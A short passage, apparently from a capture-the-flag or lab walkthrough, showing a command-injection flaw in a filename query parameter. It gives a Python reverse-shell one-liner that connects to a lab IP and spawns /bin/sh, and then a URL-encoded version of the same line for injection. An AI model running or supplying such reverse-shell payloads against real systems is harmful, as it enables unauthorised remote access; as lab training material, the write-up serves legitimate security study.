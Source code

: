![logs code](screenshot10.png)

The filename query can be used to inject malicious code (Remote Code Execution)

For this we will be using a python reverse shell and url encoding it to deliver it over web

### Reverse shell
We update our ip address and socket port
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

### URL Encoded reverse shell 
```bash
python3%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.29%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3Bos.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bpty.spawn(%22%2Fbin%2Fsh%22)%27%0A
```
